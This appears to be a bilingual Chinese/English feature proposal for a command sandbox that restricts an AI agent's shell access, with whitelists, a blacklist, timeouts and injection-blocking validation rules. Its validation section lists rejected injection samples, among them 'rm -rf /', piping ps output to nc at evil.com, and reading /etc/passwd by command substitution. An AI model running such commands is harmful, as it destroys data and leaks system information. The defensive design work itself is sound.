

# 系統指令安全沙箱

# System Command Security Sandbox

> **Priority / 優先級**: P1
> **Status / 狀態**: Proposed / 提案中
> **Target Version / 目標版本**: v1.5

---

## 問題描述 / Problem Statement

目前 `TOOL_POLICY.md` 將 `run_command` 統一歸類在 T1（OWNER_ONLY），但實際上唯讀的監控指令（如 `df`, `ps`, `du`）風險極低，應該可以開放給更多角色使用。同時，需要一個安全沙箱來防止指令注入攻擊。

Currently `TOOL_POLICY.md` classifies `run_command` entirely as T1 (OWNER_ONLY), but read-only monitoring commands (like `df`, `ps`, `du`) are very low-risk and should be available to more roles. A security sandbox is needed to prevent command injection attacks.

### 社群背景 / Community Context

工程師回饋指出 agent 應該能內建執行基本系統指令來進行自我監控：
- `df` — 磁碟使用量
- `free` / `vm_stat` — 記憶體使用量
- `ps` — 程序列表
- `du` — 目錄大小
- `services` / `launchctl` — 服務狀態

---

## 指令分類 / Command Classification



## 沙箱執行流水線 / Sandbox Execution Pipeline

```mermaid
%%{init: {'theme': 'dark'}}%%
sequenceDiagram
    participant U as 👤 User
    participant S as 🛡️ SHIELD
    participant C as 🔍 Classifier
    participant V as ✅ Validator
    participant SB as 📦 Sandbox
    participant OS as 🖥️ OS

    U->>S: Execute "df -h"
    S->>S: Identity + Permission check
    S->>C: Classify command
    C->>C: Match whitelist ✅
    C->>V: Validate arguments
    V->>V: Check for injection patterns
    V->>V: Check arg whitelist
    V-->>SB: Safe to execute
    SB->>SB: Set timeout (5s)
    SB->>SB: Set output limit (4KB)
    SB->>OS: Execute in restricted shell
    OS-->>SB: Raw output
    SB->>SB: Sanitize output
    SB-->>U: Safe result

    Note over V: 拒絕含有 ;, |, &&, ||, `, $() 的參數
    Note over SB: Timeout: 5s / Output: 4KB max
```

## 參數驗證 / Argument Validation

防止透過參數進行注入攻擊：

```
# 允許 / Allowed
df -h
ps aux
du -sh /app

# 拒絕 / Rejected (injection attempts)
df -h; rm -rf /          # command chaining
ps aux | nc evil.com 80  # pipe to network
du -sh $(cat /etc/passwd) # command substitution
df `whoami`               # backtick execution
```

### 驗證規則 / Validation Rules

1. **禁止 shell 元字元**: `;`, `|`, `&&`, `||`, `` ` ``, `$()`, `>(`, `<(`
2. **禁止路徑穿越**: `../`, 絕對路徑須在白名單內
3. **引數數量限制**: 最多 5 個參數
4. **引數長度限制**: 每個參數最多 100 字元

## 配置 / Configuration

```json
{
  "command_sandbox": {
    "enabled": true,
    "execution": {
      "timeout_ms": 5000,
      "max_output_bytes": 4096,
      "restricted_shell": true
    },
    "whitelist": {
      "t3_commands": ["df", "ps", "du", "free", "vm_stat", "uptime", "uname", "whoami"],
      "t1_commands": ["top", "netstat", "lsof", "env"]
    },
    "blacklist": ["rm", "rmdir", "kill", "killall", "chmod", "chown", "dd", "mkfs", "shutdown", "reboot", "curl", "wget"],
    "argument_validation": {
      "block_shell_metacharacters": true,
      "block_path_traversal": true,
      "max_args": 5,
      "max_arg_length": 100
    },
    "allowed_paths": ["/app", "/tmp", "/var/log"]
  }
}
```

## 跨平台考量 / Cross-Platform Considerations

| 功能 / Function | Linux | macOS | Windows |
|----------------|-------|-------|---------|
| 磁碟使用 / Disk | `df -h` | `df -h` | `wmic logicaldisk` |
| 記憶體 / Memory | `free -m` | `vm_stat` | `wmic memorychip` |
| 程序 / Process | `ps aux` | `ps aux` | `tasklist` |
| 目錄大小 / Dir size | `du -sh` | `du -sh` | `dir /s` |
| 服務 / Services | `systemctl list-units` | `launchctl list` | `sc query` |

## 實作步驟 / Implementation Steps

1. 在 `TOOL_POLICY.md` 新增 `system_command` 工具類別
2. 實作指令分類器（白名單/黑名單/受限）
3. 實作參數驗證器（防注入）
4. 實作沙箱執行環境（timeout + output limit）
5. 更新 `security.config.json` schema
6. 跨平台指令對應表
7. 更新文件

## 驗收標準 / Acceptance Criteria

- [ ] 白名單指令在 T3 等級可用
- [ ] 黑名單指令在 T0 完全封鎖
- [ ] 未知指令預設拒絕
- [ ] 參數注入嘗試被攔截
- [ ] 執行超時 5 秒
- [ ] 輸出限制 4KB
- [ ] 跨平台指令對應文件

---

> 📄 Related Issue: `feat: 系統指令安全沙箱`
